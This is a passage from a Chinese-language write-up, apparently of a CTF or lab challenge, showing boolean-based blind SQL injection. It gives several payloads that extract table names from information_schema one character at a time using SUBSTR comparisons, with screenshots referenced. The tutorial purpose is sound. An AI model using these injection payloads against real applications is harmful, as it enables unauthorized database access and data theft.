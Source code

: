 在这道题中，`SUBSTR()`中使用的查询语句即为普通注入时的查询语句，即

```sql
SELECT SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1);
```

> <img src="./IMG3/7.png">

现在我们在题目中实际注入

```sql
1' AND SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1)>'a'#
```

> <img src="./IMG3/6.png">

```sql
1' AND SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1)>'g'#
```

> <img src="./IMG3/5.png">

```sql
1' AND SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1)='f'#
```

> <img src="./IMG3/4.png">
